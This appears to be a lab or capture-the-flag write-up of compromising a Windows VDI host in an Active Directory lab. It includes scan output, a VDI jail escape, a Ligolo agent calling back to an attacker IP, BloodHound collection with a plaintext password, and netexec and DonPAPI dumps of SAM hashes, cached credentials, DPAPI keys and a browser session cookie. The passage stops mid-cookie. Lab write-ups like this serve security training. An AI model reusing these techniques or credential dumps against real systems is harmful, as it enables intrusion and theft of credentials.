




As usual I will start by performing a full scan of all the open TCP services on this machine:

```bash
PORT      STATE SERVICE       REASON         VERSION
80/tcp    open  http          syn-ack ttl 64 Microsoft IIS httpd 10.0
|_http-title: IIS Windows Server
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
135/tcp   open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 64 Microsoft Windows netbios-ssn
443/tcp   open  ssl/https?    syn-ack ttl 64
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=VDI02.eu-ifrit.vl
| Issuer: commonName=VDI02.eu-ifrit.vl
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-08-01T09:17:54
| Not valid after:  2025-01-31T09:17:54
| MD5:     d5b5 7ce7 06e1 78e5 4bc3 1ebd 9c8e 609e
| SHA-1:   1f48 52e9 c410 f0bb 16e7 e015 341f 6f69 fec2 b0ce
| SHA-256: c0f0 3dc3 835c 2570 8ba0 64c7 ea6f b105 8e88 62dd 04b4 975e f719 8fcd 4bde 1255
| -----BEGIN CERTIFICATE-----
| MIIC5jCCAc6gAwIBAgIQX8kcN67olYFGPHHiyvkYFjANBgkqhkiG9w0BAQsFADAc
| MRowGAYDVQQDExFWREkwMi5ldS1pZnJpdC52bDAeFw0yNDA4MDEwOTE3NTRaFw0y
| NTAxMzEwOTE3NTRaMBwxGjAYBgNVBAMTEVZESTAyLmV1LWlmcml0LnZsMIIBIjAN
| BgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA4OyR/br8p5WXrGHZ23IxmO2ZXlgp
| V2nwDQUmebJ4bkscHAV6gko92AxeVSnb1oaZnEc4xQgm7RPmj4kPPYnp6rrMKazH
| BaXPW8+Ks6zwo5Zgj3/cs3G2UDjCwe98OFWOC2aGLHIN3t6Qz8NvsaxV2YE3WVnP
| y440Lhh87LQmyDY0iFr+utRTZmhdbB/TQ0GYvDXQ5uLIxqFiLZppcolpEMYMKpDZ
| CLqZuHlxj2Bnk1JF7Oq1QfYRXVHx23QQG03VLwcp6XMn/OfWvcV4856AgtUZY3xP
| u/SStP15YdXXfGV0FCS87JIjfbylwSi1xZ3tDH7hveDUM8vHGvYIO5ff8QIDAQAB
| oyQwIjATBgNVHSUEDDAKBggrBgEFBQcDATALBgNVHQ8EBAMCBDAwDQYJKoZIhvcN
| AQELBQADggEBABl2hivoAaPKketiUaseoGDX8sEfYfSFRqtwPdAzWo1oPjQV9tjl
| sSzH7JOJWA9YX8uYwWcHydkq6U3VjzCIpNXuIw23IiRBD32MbhzP0Wnz3mie5mEk
| johPekC09IseV8ejUbOoqShYz2mjR7yDHE/H+HQfcGoUGOFEAtI4WeZhPn/ZnAmV
| n9RMrHz/4u+YUyA/B+hOdHfGg62TXtIXCydP1WNVetO7BLfZW1+2qwdiL9CHw93A
| Q66/KO0LCYLCHI9j0exeM49o63U0jE+zum6UAvqRTuWdNF49SnmwswRAkDSuyrr+
| mWu1alDIieQiPUnpOE6KAEz6swf/TyRc1zw=
|_-----END CERTIFICATE-----
| tls-alpn: 
|   h2
|_  http/1.1
445/tcp   open  microsoft-ds? syn-ack ttl 64
593/tcp   open  ncacn_http    syn-ack ttl 64 Microsoft Windows RPC over HTTP 1.0
3387/tcp  open  http          syn-ack ttl 64 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
3388/tcp  open  ncacn_http    syn-ack ttl 64 Microsoft Windows RPC over HTTP 1.0
3389/tcp  open  ms-wbt-server syn-ack ttl 64 Microsoft Terminal Services
|_ssl-date: 2026-04-01T12:49:48+00:00; 0s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: EU-IFRIT
|   NetBIOS_Domain_Name: EU-IFRIT
|   NetBIOS_Computer_Name: VDI02
|   DNS_Domain_Name: eu-ifrit.vl
|   DNS_Computer_Name: VDI02.eu-ifrit.vl
|   DNS_Tree_Name: eu-ifrit.vl
|   Product_Version: 10.0.20348
|_  System_Time: 2026-04-01T12:49:09+00:00
| ssl-cert: Subject: commonName=VDI02.eu-ifrit.vl
| Issuer: commonName=VDI02.eu-ifrit.vl
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-03-31T02:44:52
| Not valid after:  2026-09-30T02:44:52
| MD5:     5d7a 233f 6914 5cc4 76dd a055 77f0 b484
| SHA-1:   2e26 c438 e7ff a481 1a1b 8020 abd6 9206 9543 2ab1
| SHA-256: 0d77 80b1 d3ff c42e 579e 692a 1475 8f11 a0b0 4454 1f27 0857 8094 2944 0165 5913
| -----BEGIN CERTIFICATE-----
| MIIC5jCCAc6gAwIBAgIQQLUN2aashIBIdvdxYFsCvjANBgkqhkiG9w0BAQsFADAc
| MRowGAYDVQQDExFWREkwMi5ldS1pZnJpdC52bDAeFw0yNjAzMzEwMjQ0NTJaFw0y
| NjA5MzAwMjQ0NTJaMBwxGjAYBgNVBAMTEVZESTAyLmV1LWlmcml0LnZsMIIBIjAN
| BgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAvPV793NkNom8uv0DC+tSgFY9tZI5
| kdZAEh/KEv5nczNnk+1cbVbxIcVHy8TE96J7nFu1XDDlpEADYvYLS5/LvJk/NLyG
| 0GAi1ib1dYe1y2AJaqJwouQtALvaK8KcNiMIyx8H+Oa/0EYCVgbc78dJt+ha70iU
| ogIMePEQAWGvfgX0rHwfX23BJ8Cw/f1+RtbLqJQS4pWZyWJ4zl6PRhdXmDiXEh2A
| 6uvWpA1nXP1r20BcB1eec5QOAXpnqGUR01vfiBF8XLCgrx4qaXRfGUmzkrnylYYI
| bGfkCHxddE2oeRoANFQZbqfQ/Fbl/HfuoDqiXDJvz6Umsxer70LFbYaqQQIDAQAB
| oyQwIjATBgNVHSUEDDAKBggrBgEFBQcDATALBgNVHQ8EBAMCBDAwDQYJKoZIhvcN
| AQELBQADggEBAIHvKmTAcqgUkiK/GsU2UrcBJKofyvHntiOip25FNbpb0M2+MRgh
| 9CViJpTQJ1eg4341R1heLcoOTsR0rAi1/6Cfp9dGFSJH2DprByZ5eoIfTvDMPEfp
| gJnVAVnEt5CSfgFpDOsRrrByb1H2c8vDNomVCerzlnoPo8w9sasU3TCIwOq55eFD
| 0HFNHuyq4vdJd9U92a/aQKHA9iilF6hdpT9eH9tk/xd5YDZlJrZvXvdMEHDZSCgo
| Mjo+eOZ1wWI36RGWAUC5HPMoyqQ641zTCvpaYbfzZdJp9HYWGBnSyG8mi7aTXlXs
| lN8vjPuwIrOlJPEc5ZNQ/nj2pVEAdMtdLYY=
|_-----END CERTIFICATE-----
5504/tcp  open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
5985/tcp  open  http          syn-ack ttl 64 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
47001/tcp open  http          syn-ack ttl 64 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49669/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49670/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49672/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49675/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49814/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49815/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49920/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
TCP/IP fingerprint:
SCAN(V=7.98%E=4%D=4/1%OT=80%CT=%CU=%PV=Y%G=N%TM=69CD146D%P=x86_64-pc-linux-gnu)
SEQ(SP=101%GCD=1%ISR=103%TI=I%CI=I%II=RI%TS=A)
SEQ(SP=F7%GCD=1%ISR=101%TI=I%CI=I%II=RI%TS=A)
OPS(O1=M5B4NNT11NW7%O2=M5B4NNT11NW7%O3=M5B4NNT11NW7%O4=M5B4NNT11NW7%O5=M5B4NNT11NW7%O6=M5B4NNT11)
WIN(W1=7200%W2=7200%W3=7200%W4=7200%W5=7200%W6=7200)
ECN(R=Y%DF=N%TG=40%W=7200%O=M5B4NW7%CC=N%Q=)
T1(R=Y%DF=N%TG=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=Y%DF=N%TG=40%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)
T3(R=Y%DF=N%TG=40%W=7200%S=O%A=S+%F=AS%O=M5B4NNT11NW7%RD=0%Q=)
T4(R=Y%DF=N%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T6(R=Y%DF=N%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T7(R=Y%DF=N%TG=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
U1(R=N)
IE(R=Y%DFI=S%TG=40%CD=S)

```

# Escaping the VDI Jail

Here after the first login I can see that the VDI is exposing only 2 applications:



Now my idea is "can I use the Wordpad to open the Powershell.exe?" and escape the RDP jail?



Now if I choose to open it will be opened as text mode in the Wordpad, but using the (SHIFT button) allows you to see the extended Windows menu and open as another user, this spanws a new process that executes outside the current Wordpad process:  


Now I can use the same credentials as all of the users provided were low-privileged and I have a shell.



Now I will invoke a Reverse shell so that I can get a better shell on my side. I will also upload Sharphound and get a picture of all the domain stuff.

```bash
PS C:\Temp> .\SharpHound.exe -c All
Program 'SharpHound.exe' failed to run: This program is blocked by group policy. For more information, contact your system administratorAt line:1 char:1
+ .\SharpHound.exe -c All
+ ~~~~~~~~~~~~~~~~~~~~~~~.
At line:1 char:1
+ .\SharpHound.exe -c All
+ ~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : ResourceUnavailable: (:) [], ApplicationFailedException
    + FullyQualifiedErrorId : NativeCommandFailed

PS C:\Temp>
```

Definitely there is an AppLocker policy going on here, I will upload to the task folder istead and run that from there. Damn! Most definitely there is a defender interrupting me so I will setup a Ligolo tunnel instead and take the thing remotely from my machine:

```bash
PS C:\Windows\Tasks> .\SharpHound.exe -domain eu-ifrit.vl -c All
.\SharpHound.exe : The term '.\SharpHound.exe' is not recognized as the name of a cmdlet, function, script file, or operable program. Check the spelling of the name, or if a path was included, verify that the path is correct and try again.
At line:1 char:1
+ .\SharpHound.exe -domain eu-ifrit.vl -c All
+ ~~~~~~~~~~~~~~~~
    + CategoryInfo          : ObjectNotFound: (.\SharpHound.exe:String) [], CommandNotFoundException
    + FullyQualifiedErrorId : CommandNotFoundException

PS C:\Windows\Tasks> ls


    Directory: C:\Windows\Tasks


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----          4/1/2026   5:23 AM        6694400 agent.exe


PS C:\Windows\Tasks> Stop-Job -Name Ligolo
PS C:\Windows\Tasks> Start-Job -name Ligolo { C:\Windows\Tasks\agent.exe -connect 10.10.14.9:11601 -ignore-cert }

Id     Name            PSJobTypeName   State         HasMoreData     Location             Command
--     ----            -------------   -----         -----------     --------             -------
9      Ligolo          BackgroundJob   Running       True            localhost             C:\Windows\Tasks\agen...


PS C:\Windows\Tasks>

```

# Pivoting the internal network

Now before doing anything I will use the credentials to obtain a screenshot of the AD schema and dump in bloodhound(check the DC page for the AD analysis).

```bash
└─$ bloodhound-ce-python -ns 172.16.41.14 -d eu-ifrit.vl -u 'Annette.King' -p 'PenEuIfrit527#' -c All --zip --dns-tcp
INFO: BloodHound.py for BloodHound Community Edition
INFO: Found AD domain: eu-ifrit.vl
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: [Errno Connection error (dc03.eu-ifrit.vl:88)] [Errno -2] Name or service not known
INFO: Connecting to LDAP server: dc03.eu-ifrit.vl
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 13 computers
INFO: Connecting to LDAP server: dc03.eu-ifrit.vl
INFO: Found 217 users
INFO: Found 59 groups
INFO: Found 5 gpos
INFO: Found 7 ous
INFO: Found 19 containers
INFO: Found 2 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: VDI02.eu-ifrit.vl
INFO: Querying computer: 
INFO: Querying computer: SQL03.eu-ifrit.vl
INFO: Querying computer: DEV05.eu-ifrit.vl
INFO: Querying computer: 
INFO: Querying computer: DC03.eu-ifrit.vl
INFO: Done in 00M 08S
INFO: Compressing output into 20260401143101_bloodhound.zip

```

Now I have perfomed a quick ping sweep showing the following machines:

```bash
└─$ fping -asqg 172.16.41.0/24
172.16.41.11
172.16.41.14
172.16.41.17
172.16.41.40
172.16.41.150
172.16.41.210
172.16.41.215
172.16.41.225

     254 targets
       8 alive
     246 unreachable
       0 unknown addresses

     984 timeouts (waiting for response)
     992 ICMP Echos sent
       8 ICMP Echo Replies received
       0 other ICMP received

 26.4 ms (min round trip time)
 29.4 ms (avg round trip time)
 37.2 ms (max round trip time)
        9.717 sec (elapsed real time)


```

But another scan shows that the ping missed actually 2 SQL servers on the list:

```bash
─$ netexec mssql 172.16.41.0/24
MSSQL       172.16.41.251   1433   SQL07            [*] Windows Server 2022 Build 20348 (name:SQL07) (domain:it-ifrit.vl) (EncryptionReq:False)
MSSQL       172.16.41.250   1433   SQL03            [*] Windows Server 2022 Build 20348 (name:SQL03) (domain:eu-ifrit.vl) (EncryptionReq:False)
Running nxc against 256 targets ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100% 0:00:00
                                                                               
```

I will momentaly move on to the DC03 page.

# PE

With the credentials of Sheila obtained from the pwnage of the IT realm I can login since she is part of the VDI-Admins group:



```bash
PS C:\Windows> net localgroup administrators
Alias name     administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
EU-IFRIT\Domain Admins
IFRIT\Domain Admins
IT-IFRIT\vdi-admins
The command completed successfully.
```

At the same time I will dump all the credentials from the Secret hives:

&nbsp;

```bash
└─$ netexec smb 172.16.41.225 -d it-ifrit.vl -u Sheila.Richards -H 084fa60567c6b124d0a4ca54fac5d3ce --sam --lsa --dpapi
SMB         172.16.41.225   445    VDI02            [*] Windows Server 2022 Build 20348 x64 (name:VDI02) (domain:eu-ifrit.vl) (signing:False) (SMBv1:None)
SMB         172.16.41.225   445    VDI02            [+] it-ifrit.vl\Sheila.Richards:084fa60567c6b124d0a4ca54fac5d3ce (Pwn3d!)
SMB         172.16.41.225   445    VDI02            [*] Dumping SAM hashes
SMB         172.16.41.225   445    VDI02            Administrator:500:aad3b435b51404eeaad3b435b51404ee:c76b0b0f314e47df64bb32f9d88849fe:::
SMB         172.16.41.225   445    VDI02            Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         172.16.41.225   445    VDI02            DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         172.16.41.225   445    VDI02            WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:d4dcd8706c6043e3dd1bc0014c382881:::
SMB         172.16.41.225   445    VDI02            [+] Added 4 SAM hashes to the database
SMB         172.16.41.225   445    VDI02            [*] Dumping LSA secrets
SMB         172.16.41.225   445    VDI02            IT-IFRIT.VL/Sheila.Richards:$DCC2$10240#Sheila.Richards#a6f639c1d2500570e1322b4db31abfdf: (2024-07-14 10:48:21)
SMB         172.16.41.225   445    VDI02            IFRIT.VL/Charlotte.Cooper:$DCC2$10240#Charlotte.Cooper#43d2f2411258a8637a66c66b93c78aa9: (2024-07-14 12:58:13)
SMB         172.16.41.225   445    VDI02            EU-IFRIT.VL/Patrick.Ford:$DCC2$10240#Patrick.Ford#6559d2a366877cd46a3831616a3a0351: (2024-07-14 12:53:47)
SMB         172.16.41.225   445    VDI02            EU-IFRIT.VL/Caroline.Hunter:$DCC2$10240#Caroline.Hunter#23d470530c9bef38a9980e3ba4757a67: (2024-08-02 09:45:55)
SMB         172.16.41.225   445    VDI02            EU-IFRIT.VL/Administrator:$DCC2$10240#Administrator#bab69fc8aaeccd93d7cf74418a683b45: (2024-08-02 09:41:40)
SMB         172.16.41.225   445    VDI02            EU-IFRIT.VL/Annette.King:$DCC2$10240#Annette.King#183c9858df785c02ce51eafc8654525f: (2026-04-06 07:35:07)
SMB         172.16.41.225   445    VDI02            EU-IFRIT\VDI02$:aes256-cts-hmac-sha1-96:e700affcead1b35b9773448b7ff9231374ca0e3e592d32831f052ef963db30d0
SMB         172.16.41.225   445    VDI02            EU-IFRIT\VDI02$:aes128-cts-hmac-sha1-96:1306f549e0531134b9df54f54faf41f9
SMB         172.16.41.225   445    VDI02            EU-IFRIT\VDI02$:des-cbc-md5:4ffefd75fbae345b
SMB         172.16.41.225   445    VDI02            EU-IFRIT\VDI02$:plain_password_hex:c41dd60a6b73595d06b4c60ad84772abd037b8f63a602e3e92a538c269ba18881de04a16ce78981ac3c37efe5b579eeae4e80db11f5ba84640273ade638b67fbf2852a16a9d35d5dbb875af50c257ff555c09a72a79f36179b8e43cf2ebc0f86888264d93b2456cfe35c619205b28b97f2637704bf768d707f7f23d1d576ebf9c324378a90dc2dc88250ae38755da33c56461b995b35647bf1498bf47f8a3d78741ceb00b966083b75be9ccc15a1cfd19ff52c4accaee20a13696fe468a7a302af1293c74f6cde613e781a0192a1eae07898e6f5f3a4950664608c4f0c9f6958a95522a85ae69f33a45ff2586d5d1a20
SMB         172.16.41.225   445    VDI02            EU-IFRIT\VDI02$:aad3b435b51404eeaad3b435b51404ee:ef717a62d367ae6f2fc19dc06230abb3:::
SMB         172.16.41.225   445    VDI02            dpapi_machinekey:0xec5e2f000478a8d7cbcc4edb9be829853ed83abb
dpapi_userkey:0xa961a65b2f90aa16d73c2ad2cb73e3d8c47503bd
SMB         172.16.41.225   445    VDI02            [+] Dumped 12 LSA secrets to /home/millycash/.nxc/logs/lsa/VDI02_172.16.41.225_2026-04-06_095413.secrets and /home/millycash/.nxc/logs/lsa/VDI02_172.16.41.225_2026-04-06_095413.cached
SMB         172.16.41.225   445    VDI02            [+] Loading domain backupkey from nxcdb...
SMB         172.16.41.225   445    VDI02            [*] Collecting DPAPI masterkeys, grab a coffee and be patient...
SMB         172.16.41.225   445    VDI02            [+] Got 8 decrypted masterkeys. Looting secrets...

```

And dump the flag from the machine's Administrator home folder:

```bash
evil-winrm-py PS C:\Users\Administrator\Desktop> ls


    Directory: C:\Users\Administrator\Desktop


Mode                 LastWriteTime         Length Name                                                                  
----                 -------------         ------ ----                                                                  
-a----         4/24/2025  11:10 PM             39 flag.txt                                                              
-a----         7/28/2024   8:22 AM           2304 Microsoft Edge.lnk                                                    


evil-winrm-py PS C:\Users\Administrator\Desktop> cat flag.txt
IFRIT{fc3c6444ebe157f902b574bf8aab2c92}
evil-winrm-py PS C:\Users\Administrator\Desktop>

```

For the continuation of the exploitation please check the DC03 page.

# Pillaging

Checking the other users home folder I might have an isight of the Password manager i found installed on  the machine PWM and seems like Charlotte might have used it somehow?

```bash
evil-winrm-py PS C:\Users\charlotte.cooper> tree /f
Folder PATH listing
Volume serial number is 5D7E-7E04
C:.
+---3D Objects
+---Contacts
+---Desktop
¦       Microsoft Edge.lnk
¦       
+---Documents
+---Downloads
¦       Pleasant Password Client x64.exe
¦       
+---Favorites
¦   ¦   Bing.url
¦   ¦   
¦   +---Links
+---Links
¦       Desktop.lnk
¦       Downloads.lnk
¦       
+---Music
+---Pictures
+---Saved Games
+---Searches
+---Videos

```

# Second attempt of Pillaging

Now here I tried to execute the DPAPI export and I can see nothing more out of ordinary except that even Ford has logged in?

```bash
└─$ DonPAPI collect -d eu-ifrit.vl -u Administrator -H :d05ff1e30127c8d43e6b1ab5d22454c7 -t 172.16.41.225  
[💀] [+] DonPAPI Version 2.0.1  
[💀] [+] Output directory at /home/millycash/.donpapi  
[💀] [+] Loaded 1 targets  
[💀] [+] Recover file available at /home/millycash/.donpapi/recover/recover_1775479232  
[172.16.41.225] [+] Starting gathering credz  
[172.16.41.225] [+] Dumping SAM  
[172.16.41.225] [$] [SAM] Got 4 accounts [172.16.41.225] [+] Dumping LSA [172.16.41.225] [+] Dumping User and Machine masterkeys [172.16.41.225] [$] [DPAPI] Got 9 masterkeys  
[172.16.41.225] [+] Dumping User Chromium Browsers  
[172.16.41.225] [+] Dumping User and Machine Certificates  
[172.16.41.225] [$] [Certificates] [SYSTEM] - SAN not found - SAN not found_1F4852E9C410F0BB.pfx [172.16.41.225] [+] Dumping User and Machine Credential Manager [172.16.41.225] [+] Gathering recent files and desktop files [172.16.41.225] [+] Dumping User Firefox Browser [172.16.41.225] [$] [Firefox] [charlotte.cooper] [Cookie] .pleasantpasswords.com/ - DomainWideId:03e83009-428e-4ee5-9b70-9912dd154d43  
[172.16.41.225] [$] [Firefox] [charlotte.cooper] [Cookie] pleasantpasswords.com/ - gCo:Unk [172.16.41.225] [$] [Firefox] [charlotte.cooper] [Cookie] .pleasantpasswords.com/ - OriginalReferrer:https://pwm.ifrit.vl:10001/  
[172.16.41.225] [$] [Firefox] [charlotte.cooper] [Cookie] .pleasantpasswords.com/ - OriginalUrl:https://pleasantpasswords.com/product-news?FeedID=dbd24e14-b93c-4373-bf76-45e176af66f0585&Version=9.0.6.0.Community Edition,5&Hash=5Sl762OQPm2MgcCRYiWLU/mYEUU=&ref=0f08eb9c-7fa4-46cd-8b1d-55d880502d52 [172.16.41.225] [$] [Firefox] [charlotte.cooper] [Cookie] .pleasantpasswords.com/ - OriginalTimestamp:638565514736806270  
[172.16.41.225] [$] [Firefox] [charlotte.cooper] [Cookie] .pleasantpasswords.com/ - SubdomainSharedSession:true [172.16.41.225] [$] [Firefox] [charlotte.cooper] [Cookie] .pleasantpasswords.com/ - __utmt:1  
[172.16.41.225] [$] [Firefox] [charlotte.cooper] [Cookie] .pleasantsolutions.com/ - DomainWideId:96369c73-9778-4230-b3f7-ad9975695b3e [172.16.41.225] [$] [Firefox] [charlotte.cooper] [Cookie] .pleasantpasswords.com/ - VisitCount:2  
[172.16.41.225] [$] [Firefox] [charlotte.cooper] [Cookie] .pleasantpasswords.com/ - __utma:159369083.1402738889.1720954676.1720954676.1720954676.1 [172.16.41.225] [$] [Firefox] [charlotte.cooper] [Cookie] .pleasantpasswords.com/ - __utmz:159369083.1720954676.1.1.utmcsr=pwm.ifrit.vl:10001|utmccn=(referral)|utmcmd=referral|utmcct=/  
[172.16.41.225] [$] [Firefox] [charlotte.cooper] [Cookie] .pleasantpasswords.com/ - __utmb:159369083.2.10.1720954676 [172.16.41.225] [$] [Firefox] [charlotte.cooper] [Cookie] pwm.ifrit.vl/ - .PleasantIdentity.ApplicationCookie:0b-*fNB*--CsS2vSa1Y-836trXbyd_rrRE9H3l4BmGYRh1Kd2vDRswj5DqT3eHpeh61IclA4FfI7B2E79l0qXRlRuFxMQP6nsl6XMJZrBISmfm_BI7xGZN-_AZgPGJATCS2szfSLwIhafwUw7i7WZleAEeSUb8p6rpdGq5gnhusyDl_9gH-QWgXSZEbSKvzY926hv-VCu04yGSi7eOy7Q2rpX0oFY1iHmiRYlcrAAsfQA_ahuPMO1lWU0VGS1ZObK-610UsFjQhA7JJ-1oiI--or5ECfZzBuKJZvPN_g2pIpzdjzBLzBah7FUpIce4-EwGj8QVGKT9uP7LpjvmuVF8LrJ1mQ5oRGQOuJ8IV63QLXBNPwRrGikGavPFH8YqjqsPx2aH2XMVn-AS9ht0rizVBCab2qsz3YCyPU9OqwzkdXphyYPO0sCoH3h0nB1JAdBdtqAPNw6NJXdqVDYF9WTOSj-sh-_K-7y_CAXv2r4dNmMRcktMbxYUCNyB0GtP4tzDZCI97_chBZb4CRy7WdD9QMoqVFLigfGW_NAZ3vZl9BcPDuQDaSLH2njzgejslSjACWa1DmsuUcD6LiexPcCfVyK2T_wy5F_1Shy6tPbvPgNjYQpy4Uv7hlCLkuuLXkeWdvMOsZqIZb0bp5oyB6wPWJmX-13PgrHBvsvOFcEIhSIYWNK1823uXenHeT8caUudNSvtmSj1lec0tem2dru24BO8wx6hP3ZtZnkMb8zXkItNTkiTxOLFW6uR-osNxquvtWXrxyOsgr1Fnfuwf18GBDMTSdRl-fNtnj6